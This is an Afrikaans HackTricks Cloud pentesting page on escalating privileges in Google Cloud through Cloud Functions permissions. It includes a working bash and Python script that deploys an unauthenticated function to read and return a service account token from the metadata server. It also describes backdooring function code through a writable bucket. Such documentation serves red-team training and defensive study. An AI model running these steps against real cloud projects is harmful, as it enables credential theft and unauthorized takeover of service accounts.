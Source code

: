 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Meer inligting oor Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **'n nuwe Cloud Function met arbitrêre (kwaadaardige) kode skep en dit aan 'n Diensrekening toewys**. Dan, lek die Diensrekening token uit die metadata om voorregte na dit te eskaleer.\
Sommige voorregte om die funksie te aktiveer mag benodig word.

Eksploitasieskripte vir hierdie metode kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) en [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) en die voorafgeboude .zip-lêer kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **die kode van 'n Funksie wysig en selfs die diensrekening wat aangeheg is, wysig** met die doel om die token te ekfiltreer.

{% hint style="danger" %}
Om cloud funksies te ontplooi, sal jy ook actAs toestemmings oor die standaard rekenaar diensrekening of oor die diensrekening wat gebruik word om die beeld te bou, benodig.
{% endhint %}

Sommige ekstra voorregte soos `.call` toestemming vir weergawe 1 cloudfunctions of die rol `role/run.invoker` om die funksie te aktiveer mag benodig word.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
As jy die fout `Permission 'run.services.setIamPolicy' denied on resource...` kry, is dit omdat jy die `--allow-unauthenticated` param gebruik en jy nie genoeg toestemming het nie.
{% endhint %}

Die eksploit-skrip vir hierdie metode kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Met hierdie toestemming kan jy 'n **ondertekende URL kry om 'n lêer na 'n funksiebucket op te laai (maar die kode van die funksie sal nie verander nie, jy moet dit steeds opdateer)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nie regtig seker hoe nuttig net hierdie toestemming is vanuit 'n aanvallers perspektief nie, maar dit is goed om te weet.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Gee jouself enige van die vorige **`.update`** of **`.create`** voorregte om te eskaleer.

### `cloudfunctions.functions.update`

Slegs met **`cloudfunctions`** toestemmings, sonder **`iam.serviceAccounts.actAs`** sal jy **nie in staat wees om die funksie op te dateer NIE SO DIT IS NIE 'N GESKIKTE PRIVESC NIE.**

### Lees- en Skryftoegang oor die emmer

As jy lees- en skryftoegang oor die emmer het, kan jy veranderinge in die kode monitor en wanneer 'n **opdatering in die emmer plaasvind, kan jy die nuwe kode met jou eie kode opdateer** sodat die nuwe weergawe van die Cloud Function met die ingediende backdoored kode uitgevoer sal word.

Jy kan meer oor die aanval nagaan in:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Echter, jy kan dit nie gebruik om derdeparty Cloud Functions vooraf te kompromitteer nie, want as jy die emmer in jou rekening skep en dit openbare toestemmings gee sodat die eksterne projek daaroor kan skryf, kry jy die volgende fout:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Echter, dit kan gebruik word vir DoS-aanvalle.
{% endhint %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
